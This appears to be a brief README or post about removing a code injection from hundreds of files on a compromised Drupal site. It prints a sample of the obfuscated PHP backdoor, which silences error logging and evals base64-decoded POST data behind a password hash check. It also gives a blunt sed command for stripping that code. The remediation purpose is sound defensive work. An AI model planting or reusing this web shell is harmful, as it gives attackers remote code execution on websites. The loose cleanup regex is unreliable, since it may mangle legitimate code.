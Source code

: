 # Remove Drupal Code injection

Had a client whose site got hit with a big code injection attack. There were many hundreds of compromised files and no clean copy of the code anywhere.

The injected code looked something like this:

```<?php /*457563643*/ error_reporting(0); @ini_set('error_log',NULL); @ini_set('log_errors',0); @ini_set('display_errors','Off'); @eval(base64_decode('aWYobWQ1KCRfUE9TVFsicGYiXSkgPT09ICI5M2FkMDAzZDdmYzU3YWFlOTM4YmE0ODNhNjVkZGY2ZCIpIHsgZXZhbChiYXNlNjRfZGVjb2RlKCRfUE9TVFsiY29va2llc19w'); /*457563643*/ ?>```


With too many files to clean up manually, we removed the offending code with

```find . -name "*.php" | xargs sed -i 's/<*.*[[:digit:]]+*.*eval*.*[[:digit:]]+*.*>//g' *.php```

,replaced the core files with the latest Drupal version and put the clean into version control.

Your mileage may vary. 
